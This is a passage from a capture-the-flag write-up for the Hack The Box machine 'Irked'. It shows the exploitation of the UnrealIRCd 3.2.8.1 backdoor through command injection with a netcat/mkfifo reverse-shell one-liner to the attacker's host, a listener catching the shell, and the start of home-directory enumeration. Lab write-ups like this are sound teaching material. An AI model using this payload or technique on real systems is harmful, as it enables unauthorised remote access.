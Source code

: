 From the output above, I deduced that the service version was `Unreal3.2.8.1` which had exploits publicly available:

```none
$ searchsploit unreal
... CONTENT SNIPPED ...
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                                                              | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                                                                   | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                                                                            | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                                                                                 | windows/dos/27407.pl
... CONTENT SNIPPED ...
```

The `UnrealIRCd 3.2.8.1 - Remote Downloader/Execute` exploit didn't work too well, so I exploited it manually since it looks like you need to send the payload shortly after establishing the TCP connection. Basically, you can abuse the backdoor trojan via command injection on the `AB` macro. I was able to invoke a reverse netcat shell this way:

```none
kali@kali:~/htb/machines/irked/irc/exploit$ ncat 10.10.10.117 6697
:irked.htb NOTICE AUTH :*** Looking up your hostname...
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 2001 >/tmp/f
```

On my Kali machine:

```none
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.117.
Ncat: Connection from 10.10.10.117:41836.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

After getting a netcat reverse shell, I immediately [upgraded to a PTY](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2).

## Privilege Escalation - User Own (World Readable Password Hint)

After listing the content of the `/home` directory, I noticed the `djmardov` user. I enumerated their directory for sensitive information:

```none
ircd@irked:/home/djmardov$ find . -ls 2>/dev/null
1061877    4 drwxr-xr-x  18 djmardov djmardov     4096 Nov  3  2018 .
1177472    4 drwx------   3 djmardov djmardov     4096 May 11  2018 ./.dbus
1061885    4 -rw-r--r--   1 djmardov djmardov      675 May 11  2018 ./.profile
1062684    0 lrwxrwxrwx   1 root     root            9 Nov  3  2018 ./.bash_history -> /dev/null
1177702    4 drwx------   2 djmardov djmardov     4096 May 11  2018 ./.ssh
1061894    4 drwxr-xr-x   2 djmardov djmardov     4096 May 14  2018 ./Downloads
1177456    4 drwxr-xr-x   2 djmardov djmardov     4096 May 15  2018 ./Documents
1177813    4 -rw-------   1 djmardov djmardov       33 May 15  2018 ./Documents/user.txt
1177807    4 -rw-r--r--   1 djmardov djmardov       52 May 16  2018 ./Documents/.backup
1177703    4 drwx------   2 djmardov djmardov     4096 May 15  2018 ./.gnupg
1061893    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 ./Desktop
1177523    4 drwx------  13 djmardov djmardov     4096 May 15  2018 ./.cache
1177487    4 drwx------   3 djmardov djmardov     4096 Nov  3  2018 ./.gconf
1177477    4 drwx------   3 djmardov djmardov     4096 May 11  2018 ./.local
1061897    8 -rw-------   1 djmardov djmardov     4706 Nov  3  2018 ./.ICEauthority
```